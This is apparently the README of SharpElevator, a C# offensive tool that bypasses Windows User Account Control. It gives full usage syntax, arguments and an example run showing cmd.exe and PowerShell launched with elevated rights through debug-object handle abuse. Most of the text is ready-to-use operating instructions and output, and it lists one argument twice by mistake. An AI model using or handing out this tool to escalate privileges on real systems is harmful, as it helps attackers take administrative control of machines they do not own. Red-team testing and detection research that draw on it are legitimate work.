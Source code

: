 # Sharp Elevator

SharpElevator is a C# implementation of [Elevator](https://github.com/Kudaes/Elevator) by Kurosh Dabbagh Escalante for UAC bypass.

This UAC bypass was originally discovered by James Forshaw [(@tiraniddo)](https://twitter.com/tiraniddo) and published in his brilliant post at:
[https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html](https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html)

## Usage
  SharpElevator.exe [/command:&lt;command to execute>] [/arguments:<command line arguments>] 
                           [/unelevatedpath:<path>] [/elevatedpath:<path>] [/nowindow] [/newconsole]

### Arguments
    [/command:<command to execute>]        Sets the command to executed in an elevated contex. 
                                           Defaults to cmd.exe.

    [/arguments:<command line arguments>]  Sets the command line arguments.
                                           Defaults to blank.

    [/unelevatedpath:<path>]               Sets the path of a sacrificial program to launch in an unelevated context.
                                           Defaults to C:\Windows\System32\notepad.exe

    [/unelevatedpath:<path>]               Sets the path of a sacrificial auto-elevated program.
                                           Defaults to C:\Windows\System32\taskmgr.exe

    [/nowindow]                            Sets the NoWindow flag for the new process.
                                           Defaults to false.

    [/newconsole]                          Sets the NewConsole flag for the new process.
                                           Defaults to false.

### Example

```
    ..>SharpElevator.exe /command:cmd.exe /arguments:"/ c powershell.exe" /newconsole

        [+] Unelevatad process created(C:\Windows\System32\notepad.exe)
        [+] Reference to debug object obtained
        [+] Terminated unelevated process
        [+] Detached debug object from unelevetad process
        [+] Elevatad process created(C:\Windows\System32\taskmgr.exe)
        [+] Initial process creation debug event retrieved
        [+] Obtained full access handle to elevated process
        [+] Terminated elevated process
        [+] Detached debug object from elevetad process
        [+] WOOT! Created elevated process cmd.exe /c powershell.exe
```

